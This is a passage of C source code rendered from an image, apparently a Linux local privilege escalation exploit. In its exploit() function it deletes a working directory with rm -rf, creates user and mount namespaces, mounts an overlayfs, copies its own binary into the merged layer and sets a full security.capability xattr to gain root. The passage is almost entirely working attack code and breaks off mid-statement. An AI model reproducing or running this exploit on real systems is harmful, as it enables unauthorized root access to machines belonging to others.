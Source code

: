 ```text
        rd = read(fi, buf, sizeof(buf));
        if (rd == 0) {
            break;
        } else if (rd == -1) {
            if (errno == EINTR)
                continue;
            err(1, "read %s", src);
        }

        char *p = buf;
        while (rd > 0) {
            wr = write(fo, p, rd);
            if (wr == -1) {
                if (errno == EINTR)
                    continue;
                err(1, "write %s", dst);
            }
            p += wr;
            rd -= wr;
        }
    }

    close(fi);
    close(fo);
}

static int exploit()
{
    char buf[4096];

    sprintf(buf, "rm -rf '%s/'", DIR_BASE);
    system(buf);

    xmkdir(DIR_BASE, 0777);
    xmkdir(DIR_WORK,  0777);
    xmkdir(DIR_LOWER, 0777);
    xmkdir(DIR_UPPER, 0777);
    xmkdir(DIR_MERGE, 0777);

    uid_t uid = getuid();
    gid_t gid = getgid();

    if (unshare(CLONE_NEWNS | CLONE_NEWUSER) == -1)
        err(1, "unshare");

    xwritefile("/proc/self/setgroups", "deny");

    sprintf(buf, "0 %d 1", uid);
    xwritefile("/proc/self/uid_map", buf);

    sprintf(buf, "0 %d 1", gid);
    xwritefile("/proc/self/gid_map", buf);

    sprintf(buf, "lowerdir=%s,upperdir=%s,workdir=%s", DIR_LOWER, DIR_UPPER, DIR_WORK);
    if (mount("overlay", DIR_MERGE, "overlay", 0, buf) == -1)
        err(1, "mount %s", DIR_MERGE);

    // all+ep
    char cap[] = "\x01\x00\x00\x02\xff\xff\xff\xff\x00\x00\x00\x00\xff\xff\xff\xff\x00\x00\x00\x00";

    xcopyfile("/proc/self/exe", BIN_MERGE, 0777);
    if (setxattr(BIN_MERGE, "security.capability", cap, sizeof(cap) - 1, 0) == -1)
```